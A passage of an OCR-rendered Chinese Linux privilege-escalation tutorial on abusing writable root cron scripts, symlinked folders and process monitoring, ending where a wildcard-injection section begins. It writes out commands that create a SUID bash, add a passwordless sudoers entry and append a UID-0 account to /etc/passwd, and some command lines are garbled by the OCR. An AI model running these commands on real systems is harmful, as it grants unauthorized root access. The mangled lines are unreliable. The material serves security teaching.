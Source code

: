 ## **Cron脚本覆盖和符号链接**

## **如果可以修改由root执行的cron脚本，则可以非常轻松地获取shell：**

echo ‘cp /bin/bash /tmp/bash; chmod +s /tmp/bash’ > #Wait until it is executed/tmp/bash -p＃等待执行

/ tmp / bash -p

如果root用户执行的脚本使用**具有完全访问权限**的**目录**，则删除该文件夹并**创建一个符号链接文件夹到另一个**服务于您控制的脚本的**文件夹**可能会很有用。

ln -d -s < / PATH / TO / POINT > < / PATH / CREATE / FOLDER >

## **定时任务**

可以监视进程以搜索每1,2或5分钟执行的进程。可以利用它并提升特权。

例如，要**在1分钟内每隔0.1s监视一次**，**按执行次数较少的命令排序**并删除一直执行的命令，可以执行以下操作：

for i in $(seq 1 610); do ps -e —format cmd >> /tmp/monprocs.tmp; sleep 0.1; done; sort /tmp/monprocs.tmp | uniq -c | grep -v “[“ | sed ‘/^.{200}./d’ | sort | grep -E -v “\s*[6-9][0-9][0-9]|\s*[0-9][0-9][0-9][0-9]”; rm /tmp/monprocs.tmp;

**总结**

由于Cron在执行时以root身份运行/etc/crontab，因此crontab调用的任何命令或脚本也将以root身份运行。当Cron执行的脚本可由非特权用户编辑时，那些非特权用户可以通过编辑此脚本并等待Cron以root特权执行该脚本来提升其特权！

例如，假设下面的行在中/etc/crontab。每天晚上9：30，Cron运行maintenance.shshell脚本。该脚本在root特权下运行。

30 21 * root /path/to/maintenance.sh

现在让我们说该maintenance.sh脚本还可以由所有人编辑，而不仅仅是root用户。在这种情况下，任何人都可以将命令添加到maintenance.sh，并使该命令由root用户执行！

这使得特权升级变得微不足道。例如，攻击者可以通过将自己添加为Sudoer来向自己授予超级用户特权。

echo “vickie ALL=(ALL) NOPASSWD:ALL” >> /etc/sudoers

或者，他们可以通过将新的root用户添加到“ / etc / passwd”文件来获得root访问权限。由于“ 0”是root用户的UID，因此添加UID为“ 0”的用户将为该用户提供root特权。该用户的用户名为“ vickie”，密码为空：

echo “vickie::0:0:System Administrator:/root/root:/bin/bash” >> /etc/passwd

等等。

## **0x008 linux提权-通配符注入**

通配符是代表其他字符的符号。您可以将它们与任何命令（例如cat或rm命令）一起使用，以列出或删除符合给定条件的文件。还有其他一些，但是现在对我们很重要的一个是*字符，它可以匹配任意数量的字符。

例如：

- cat 显示当前目录中所有文件的内容
- rm 删除当前目录中的所有文件

它的工作原理是将*角色扩展到所有匹配的文件。如果我们有文件a，b并且c在当前目录中并运行rm* ，则结果为rm a b c。

## **原理**
